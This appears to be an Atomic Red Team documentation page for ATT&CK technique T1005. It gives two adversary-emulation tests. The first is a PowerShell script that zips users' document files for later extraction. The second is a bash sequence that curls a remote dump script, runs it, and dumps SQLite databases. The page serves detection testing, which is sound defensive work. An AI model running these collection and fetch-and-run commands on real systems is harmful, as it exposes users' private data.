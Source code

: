 ```yaml
---
tags: [T1005, atomic_test]
filename: "[[T1005|T1005 - Data from Local System]]"
---
```

# T1005 - Data from Local System

## Atomic Test #1 - Search files of interest and save them to a single zip file (Windows)
This test searches for files of certain extensions and saves them to a single zip file prior to extraction.

**Supported Platforms:** Windows


**auto_generated_guid:** d3d9af44-b8ad-4375-8b0a-4bff4b7e419c





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| starting_directory | Path to starting directory for the search | Path | C:&#92;Users|
| output_zip_folder_path | Path to directory for saving the generated zip file | Path | PathToAtomicsFolder&#92;..&#92;ExternalPayloads&#92;T1005|
| file_extensions | List of file extensions to be searched and zipped, separated by comma and space | string | .doc, .docx, .txt|


#### Attack Commands: Run with `powershell`! 


```powershell
$startingDirectory = "#{starting_directory}"
$outputZip = "#{output_zip_folder_path}"
$fileExtensionsString = "#{file_extensions}" 
$fileExtensions = $fileExtensionsString -split ", "

New-Item -Type Directory $outputZip -ErrorAction Ignore -Force | Out-Null

Function Search-Files {
  param (
    [string]$directory
  )
  $files = Get-ChildItem -Path $directory -File -Recurse | Where-Object {
    $fileExtensions -contains $_.Extension.ToLower()
  }
  return $files
}

$foundFiles = Search-Files -directory $startingDirectory
if ($foundFiles.Count -gt 0) {
  $foundFilePaths = $foundFiles.FullName
  Compress-Archive -Path $foundFilePaths -DestinationPath "$outputZip\data.zip"

  Write-Host "Zip file created: $outputZip\data.zip"
  } else {
      Write-Host "No files found with the specified extensions."
  }
```

#### Cleanup Commands:
```powershell
Remove-Item -Path  $outputZip\data.zip -Force
```





<br/>
<br/>

## Atomic Test #2 - Find and dump sqlite databases (Linux)
An adversary may know/assume that the user of a system uses sqlite databases which contain interest and sensitive data. In this test we download two databases and a sqlite dump script, then run a find command to find & dump the database content.

**Supported Platforms:** Linux


**auto_generated_guid:** 00cbb875-7ae4-4cf1-b638-e543fd825300





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| remote_url | url of remote payload | url | https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1005/src|


#### Attack Commands: Run with `bash`! 


```bash
cd $HOME
curl -O #{remote_url}/art
curl -O #{remote_url}/gta.db
curl -O #{remote_url}/sqlite_dump.sh
chmod +x sqlite_dump.sh
find . ! -executable -exec bash -c 'if [[ "$(head -c 15 {} | strings)" == "SQLite format 3" ]]; then echo "{}"; ./sqlite_dump.sh {}; fi' \;
```

#### Cleanup Commands:
```bash
rm -f $HOME/.art
rm -f $HOME/gta.db
rm -f $HOME/sqlite_dump.sh
```



#### Dependencies:  Run with `bash`!
##### Description: Check if running on a Debian based machine.
##### Check Prereq Commands:
```bash
if [ -x "$(command -v sqlite3)" ]; then echo "sqlite3 is installed"; else echo "sqlite3 is NOT installed"; exit 1; fi
if [ -x "$(command -v curl)" ]; then echo "curl is installed"; else echo "curl is NOT installed"; exit 1; fi
if [ -x "$(command -v strings)" ]; then echo "strings is installed"; else echo "strings is NOT installed"; exit 1; fi
```
##### Get Prereq Commands:
```bash
if grep -iq "debian\|ubuntu\|kali\|mint" /usr/lib/os-release; then apt update && apt install -y binutils curl sqlite3; fi
if grep -iq "rhel\|fedora\|centos" /usr/lib/os-release; then yum update -y && yum install -y binutils curl sqlite-devel; fi
```




<br/>
